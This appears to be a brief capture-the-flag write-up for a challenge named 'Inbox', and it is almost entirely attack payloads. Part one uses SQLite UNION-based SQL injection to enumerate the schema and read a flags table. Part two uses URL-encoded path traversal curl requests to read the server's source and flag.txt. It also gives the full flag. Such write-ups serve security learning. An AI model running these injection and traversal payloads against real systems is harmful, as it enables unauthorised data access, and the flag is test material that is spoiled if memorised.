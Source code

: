 Inbox
First part:

# Two columns returned
' UNION SELECT 1, 2-- -
# We can now see anything
' UNION SELECT 1, (PAYLOAD)-- -
# The following lines correspond to PAYLOAD inserted in the line above

# Get full schema
SELECT group_concat(sql) FROM sqlite_schema
# Get tables
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type = 'table' and tbl_name NOT like 'sqlite_%'
# Get columns from flags
SELECT group_concat(sql) FROM sqlite_master WHERE type != 'meta' AND sql NOT NULL AND name = 'flags'
# Get flag
SELECT flag FROM flags

# 1st part = flag{off_to_a_good_start_



Second part:

# Show server source
curl 'https://thecybercoopctf-inbox.chals.io/mail/%2e%2e/index.js'
# List files
curl 'https://thecybercoopctf-inbox.chals.io/mail/%2e%2e/'
# Get flag
curl 'https://thecybercoopctf-inbox.chals.io/mail/%2e%2e/flag.txt'

# 2nd part = even_better_finish_though}


## flag{off_to_a_good_start_even_better_finish_though}